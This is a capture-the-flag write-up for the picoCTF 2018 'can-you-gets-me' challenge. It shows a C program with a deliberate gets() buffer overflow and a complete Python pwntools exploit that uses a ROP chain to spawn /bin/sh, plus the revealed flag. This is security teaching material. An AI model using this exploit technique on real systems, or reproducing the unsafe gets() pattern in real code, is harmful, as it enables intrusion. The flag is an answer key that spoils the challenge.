


### gets.c

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 16

void vuln() {
  char buf[16];
  printf("GIVE ME YOUR NAME!\n");
  return gets(buf);

}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  
}
```

Simple source code showing us the vulnerable gets function without a check on user input. We can easily overflow the buffer and control where the function returns to but the tricky part will be finding how to pop a shell with no writable stack. Lets see what is available to us

## Strategy

1. Find the buffer amount required to control EIP
2. Look in the Global Offset Table to see what addresses we can exploit
3. Build a payload to pop a shell

I was not able to find anything in the GOT and after poking around I remember a handy tool called ROPgadget. Simply run the below command and we get a fully crafted payload minus the buffer amount required

**ROPgadget --binary ./gets --ropchain**

Add the payload it spits out to our python exploit script and we are able to pop a shell on the server

### apple.py

```python
#!/usr/bin/env python

from pwn import *
from struct import pack
import sys
argc = len(sys.argv)

LOCAL = True

'''
--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x42424242} ---
+++ killed by SIGSEGV +++
Segmentation fault
~/ctf_writeups/pico2018/binary/can-you-gets-me# python -c 'print "A"*28+"BBBB"' | strace ./gets
'''
BUF = 28
context.arch = "i386"

payload = 'A'*BUF
payload += pack('<I', 0x0806f19a) # pop edx ; ret
payload += pack('<I', 0x080ea060) # @ .data
payload += pack('<I', 0x080b84d6) # pop eax ; ret
payload += '/bin'
payload += pack('<I', 0x08054b4b) # mov dword ptr [edx], eax ; ret
payload += pack('<I', 0x0806f19a) # pop edx ; ret
payload += pack('<I', 0x080ea064) # @ .data + 4
payload += pack('<I', 0x080b84d6) # pop eax ; ret
payload += '//sh'
payload += pack('<I', 0x08054b4b) # mov dword ptr [edx], eax ; ret
payload += pack('<I', 0x0806f19a) # pop edx ; ret
payload += pack('<I', 0x080ea068) # @ .data + 8
payload += pack('<I', 0x08049473) # xor eax, eax ; ret
payload += pack('<I', 0x08054b4b) # mov dword ptr [edx], eax ; ret
payload += pack('<I', 0x080481c9) # pop ebx ; ret
payload += pack('<I', 0x080ea060) # @ .data
payload += pack('<I', 0x080dece1) # pop ecx ; ret
payload += pack('<I', 0x080ea068) # @ .data + 8
payload += pack('<I', 0x0806f19a) # pop edx ; ret
payload += pack('<I', 0x080ea068) # @ .data + 8
payload += pack('<I', 0x08049473) # xor eax, eax ; ret
payload += pack('<I', 0x0807ab7f) # inc eax ; ret
payload += pack('<I', 0x0807ab7f) # inc eax ; ret
payload += pack('<I', 0x0807ab7f) # inc eax ; ret
payload += pack('<I', 0x0807ab7f) # inc eax ; ret
payload += pack('<I', 0x0807ab7f) # inc eax ; ret
payload += pack('<I', 0x0807ab7f) # inc eax ; ret
payload += pack('<I', 0x0807ab7f) # inc eax ; ret
payload += pack('<I', 0x0807ab7f) # inc eax ; ret
payload += pack('<I', 0x0807ab7f) # inc eax ; ret
payload += pack('<I', 0x0807ab7f) # inc eax ; ret
payload += pack('<I', 0x0807ab7f) # inc eax ; ret
payload += pack('<I', 0x0806cd95) # int 0x80


def exploit(p):
	p.recvuntil("GIVE ME YOUR NAME!\n")
	p.sendline(payload)
	p.interactive()


if __name__ == '__main__':
	if argc > 1:
		LOCAL = False
		from getpass import getpass
		ssh = ssh(host='2018shell.picoctf.com', user='ems3t', password=getpass())
		p = ssh.process('gets', cwd='/problems/can-you-gets-me_0_8ac5bddeab74e647cd6d31642246a12a')
		exploit(p)
	else:
		p = process('./gets')
		exploit(p)
```

<details>
	<summary>Flag</summary>

picoCTF{rOp_yOuR_wAY_tO_AnTHinG_cca0ace7}
</details>